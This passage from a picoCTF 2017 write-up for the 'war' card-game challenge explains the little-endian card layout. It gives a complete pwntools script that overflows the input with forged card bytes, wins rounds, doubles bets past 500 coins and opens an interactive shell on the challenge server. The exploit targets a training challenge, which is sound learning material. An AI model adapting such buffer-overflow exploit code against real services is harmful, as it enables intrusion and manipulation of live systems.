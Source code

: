 ```
Cheater. That's not actually a valid card.
```

We have to remember that the input is little endian and the layout of the data in memory is _card suit_ then _card value_. From here, it's easy to write a script to solve the challenge with pwntools:

**[warsol.py](/static/picoctf2017_war/warsol.py)**
---

```python
from pwn import *
import sys

HOST = 'shell2017.picoctf.com'
PORT = 49182

def main(op):

  if op == 'p':
    r = process('./war')
  elif op == 'r':
    r = remote(HOST, PORT)
  else:
    print 'Must specify p for process or r for remote'
    sys.exit(0)
  r.recv(1024)
  r.sendline('\x04\x0e'*15 + 'A')

  for _ in range(52):
    print r.recv(1024)
    r.sendline('1')

  coins = 48
  while coins < 500:

    r.sendline(str(coins))
    r.recv(1024)
    coins *= 2

  r.interactive()

  r.close()

if __name__ == '__main__':
  if len(sys.argv) < 2:
    print 'Usage: python %s <p|r>' % (sys.argv[0])
    sys.exit(0)

  if sys.argv[1] != 'r' and sys.argv[1] != 'p':
    print 'Usage: python %s <p|r>' % (sys.argv[0])
    sys.exit(0)

  main(sys.argv[1])
```
